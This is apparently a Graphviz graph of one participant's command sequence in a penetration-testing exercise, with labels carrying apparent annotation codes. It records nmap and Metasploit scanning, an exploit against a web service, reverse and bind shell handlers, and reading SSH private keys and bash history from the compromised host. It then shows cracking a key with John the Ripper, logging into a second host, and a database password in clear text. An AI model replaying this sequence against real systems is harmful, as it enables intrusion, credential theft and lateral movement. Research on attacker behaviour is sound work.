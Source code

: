 // creating graph for user: 42
digraph {
	node [shape=box]
	0 [label="nmap --help A0 A1 "]
	1 [label="nmap -p1-65535 172.18.1.5 M0 "]
	2 [label="msfdb init U"]
	3 [label="msf U"]
	4 [label="apt-get install armitage U"]
	5 [label="apt-get update U"]
	6 [label="exit U"]
	7 [label="armitage U"]
	8 [label="back U"]
	9 [label="db_status U"]
	10 [label="setg A6 "]
	11 [label="back U"]
	12 [label="back U"]
	13 [label="db_connect msf:h+L0Xf0385dbIjRgtPnNOaZSMxa7YHoFzS6ojuOkYFc=@localhost:5432/msf U"]
	14 [label="use windows/meterpreter/reverse_tcp A4 "]
	15 [label="back U"]
	16 [label="back U"]
	17 [label="setg LHOST 10.1.135.83 M6 "]
	18 [label="jobs U"]
	19 [label="back U"]
	20 [label="setg LPORT 28605 U"]
	21 [label="back U"]
	22 [label="back U"]
	23 [label="hosts -a 172.18.1.5 U"]
	24 [label="back U"]
	25 [label="use auxiliary/scanner/portscan/tcp A4 "]
	26 [label="set RHOSTS 172.18.1.5 U"]
	27 [label="set THREADS 24 U"]
	28 [label="set PORTS 50000 U"]
	29 [label="run -j M8 "]
	30 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 A1 "]
	31 [label="show exploits A5 "]
	32 [label="back U"]
	33 [label="use auxiliary/scanner/portscan/tcp A4 "]
	34 [label="set RHOSTS 172.18.1.5 U"]
	35 [label="set THREADS 24 U"]
	36 [label="set PORTS 50000 U"]
	37 [label="run -j U"]
	38 [label="msfconsole M2 "]
	39 [label="set RHOSTS 172.18.1.5 U"]
	40 [label="show A5 "]
	41 [label="show all A5 "]
	42 [label="show A5 "]
	43 [label="set exploit U"]
	44 [label="set exploit 2019-15107 U"]
	45 [label="help U"]
	46 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 A1 "]
	47 [label="use exploit/multi/handler A4 "]
	48 [label="set LHOST 0.0.0.0 U"]
	49 [label="set PAYLOAD generic/shell_reverse_tcp U"]
	50 [label="set LPORT 14718 U"]
	51 [label="set ExitOnSession false A10 "]
	52 [label="exploit -j U"]
	53 [label="use exploit/47230 A4 "]
	54 [label="set RHOSTS 172.18.1.5 U"]
	55 [label="set TARGETURI / U"]
	56 [label="set TARGET 0 U"]
	57 [label="set LHOST 10.1.135.83 U"]
	58 [label="set LPORT 11265 U"]
	59 [label="set PAYLOAD generic/shell_bind_tcp U"]
	60 [label="set RPORT 80 U"]
	61 [label="set SSL 0 U"]
	62 [label="exploit -j U"]
	63 [label="use exploit/47230 A4 "]
	64 [label="set RHOSTS 172.18.1.5 U"]
	65 [label="set TARGETURI / U"]
	66 [label="set TARGET 0 U"]
	67 [label="set LHOST 10.1.135.83 U"]
	68 [label="set LPORT 2139 U"]
	69 [label="set PAYLOAD generic/shell_bind_tcp U"]
	70 [label="set RPORT 10000 U"]
	71 [label="set SSL 0 U"]
	72 [label="exploit -j U"]
	73 [label="sessions U"]
	74 [label="sessions -u 1 U"]
	75 [label="use exploit/47230 A4 "]
	76 [label="set RHOSTS  U"]
	77 [label="set TARGETURI / U"]
	78 [label="set TARGET 0 U"]
	79 [label="set LHOST 10.1.135.83 U"]
	80 [label="set LPORT 26069 U"]
	81 [label="set PAYLOAD generic/shell_bind_tcp U"]
	82 [label="set RPORT 10000 U"]
	83 [label="set SSL 0 U"]
	84 [label="exploit -j U"]
	85 [label="use exploit/multi/handler A4 "]
	86 [label="set LHOST 10.1.135.83 U"]
	87 [label="set LPORT 8871 U"]
	88 [label="set PAYLOAD generic/shell_reverse_tcp U"]
	89 [label="set ExitOnSession false A10 "]
	90 [label="exploit -j U"]
	91 [label="hosts -a 172.18.1.5 U"]
	92 [label="back U"]
	93 [label="use exploit/47230 A4 "]
	94 [label="set RHOSTS 172.18.1.5 U"]
	95 [label="set TARGETURI / U"]
	96 [label="set TARGET 0 U"]
	97 [label="set LHOST 10.1.135.83 U"]
	98 [label="set LPORT 17595 U"]
	99 [label="set PAYLOAD generic/shell_bind_tcp U"]
	100 [label="set RPORT 10000 U"]
	101 [label="set SSL 0 U"]
	102 [label="exploit -j U"]
	103 [label="sessions U"]
	104 [label="sessions -u 3 U"]
	105 [label="sessions --help U"]
	106 [label="sessions -h U"]
	107 [label="sessions -c 3 ls A10 "]
	108 [label="sessions 3 -c ls A10 "]
	109 [label="sessions 3 -c dir U"]
	110 [label="sessions 3 -c ls A10 "]
	111 [label="sessions 3 -c dir U"]
	112 [label="sessions 3 -c cd / U"]
	113 [label="sessions 3 -c pwd U"]
	114 [label="sessions 3 -c dir U"]
	115 [label="sessions 3 -c WARNING-READ-ME.txt U"]
	116 [label="sessions 3 -c nano WARNING-READ-ME.txt U"]
	117 [label="sessions 3 -c leafpad WARNING-READ-ME.txt U"]
	118 [label="sessions 3 -c editor WARNING-READ-ME.txt U"]
	119 [label="sessions 3 -c editor WARNING-READ-ME.txt U"]
	120 [label="sessions -u  U"]
	121 [label="sessions -u 1 U"]
	122 [label="sessions U"]
	123 [label="sessions 3 -c less WARNING-READ-ME.txt M9 "]
	124 [label="sessions 3 -c ls A10 "]
	125 [label="sessions -k 3 U"]
	126 [label="sessions -c cd ? U"]
	127 [label="sessions -c cd / U"]
	128 [label="sessions -c cd / U"]
	129 [label="sessions -c dir U"]
	130 [label="sessions -c search history A3 "]
	131 [label="sessions -c find history A10 "]
	132 [label="sessions -c find *.bash_history M10 "]
	133 [label="sessions -c find -name *.bash_history U"]
	134 [label="sessions -c dir /home/eve U"]
	135 [label="sessions -c ls U"]
	136 [label="sessions -c dir /home U"]
	137 [label="sessions -c cd /home/eve U"]
	138 [label="sessions -c ls U"]
	139 [label="sessions 3 -c less .bash_history M11 "]
	140 [label="hosts -a 10.1.17.4 U"]
	141 [label="back U"]
	142 [label="sessions 3 -c tree U"]
	143 [label="sessions 3 -c pwd U"]
	144 [label="sessions 3 -c dir U"]
	145 [label="sessions 3 -c cd / U"]
	146 [label="sessions 3 -c find -name ssh A16 "]
	147 [label="sessions 3 -c cd /etc/ssh A16 "]
	148 [label="sessions 3 -c dir U"]
	149 [label="sessions 3 -c less ssh_host_rsa_key A12 A16 A17 "]
	150 [label="openssh A16 "]
	151 [label="ssh A16 "]
	152 [label="ssh -i /root/ssh M16 "]
	153 [label="dir U"]
	154 [label="dir desktop U"]
	155 [label="dir Desktop U"]
	156 [label="ssh -i /root/desktop/ssh U"]
	157 [label="less /desktop/ssh A12 A17 "]
	158 [label="pwd U"]
	159 [label="less /root/desktop/ssh A12 A17 "]
	160 [label="less /root/Desktop/ssh A12 A17 "]
	161 [label="ssh -i /root/Desktop/ssh 10.1.17.4 U"]
	162 [label="sessions 3 -c less ssh_host_ecdsa_key.pub A12 A17 "]
	163 [label="ssh -i /root/Desktop/sshpub 10.1.17.4 U"]
	164 [label="sessions 3 -c less ssh_host_ecdsa_key A12 A17 "]
	165 [label="ssh -i /root/Desktop/ssh 10.1.17.4 U"]
	166 [label="ssh U"]
	167 [label="ssh -i /root/Desktop/ssh 10.1.17.4 U"]
	168 [label="sessions 3 -c less ssh_config A12 A17 "]
	169 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 U"]
	170 [label="chmod 600 /etc/ssh/ssh_comp M15 "]
	171 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 U"]
	172 [label="sessions 3 -c cd /usr/bin/ssh U"]
	173 [label="sessions 3 -c ls U"]
	174 [label="sessions 3 -c less sshd_config A12 A17 "]
	175 [label="sessions 3 -c ls U"]
	176 [label="sessions 3 -c less ssh_host_ecdsa_key A12 A17 "]
	177 [label="sessions -c cd / U"]
	178 [label="sessions -c find -fname ecdsa U"]
	179 [label="sessions -c find -name ecdsa U"]
	180 [label="sessions -c find -name ecdsa_key U"]
	181 [label="sessions -c find -fname *ecdsa_key U"]
	182 [label="sessions -c find -fname ssh_host_ecdsa_key U"]
	183 [label="sessions -c pwd U"]
	184 [label="sessions -c ls U"]
	185 [label="python ssh2john.py M13 "]
	186 [label="python ssh2john.py /etc/ssh/ssh_comp A14 "]
	187 [label="python ssh2john.py --help A14 "]
	188 [label="python ssh2john.py A14 "]
	189 [label="python ssh2john.py A14 "]
	190 [label="python ssh2john.py /root/Desktop/ssh_comp A14 "]
	191 [label="john --wordlist rockyou.txt /root/Desktop/john M14 "]
	192 [label="john --wordlist /root/Desktop/john U"]
	193 [label="john --wordlist /usr/share/wordlists/rockyou.txt /root/Desktop/john U"]
	194 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 U"]
	195 [label="ssh -i /usr/Desktop/ssh_comp 10.1.17.4 U"]
	196 [label="ssh -i /root/Desktop/ssh_comp 10.1.17.4 U"]
	197 [label="chmod 600 /root/Desktop/ssh_comp U"]
	198 [label="ssh -i /root/Desktop/ssh_comp 10.1.17.4 U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	rankdir=LR
}
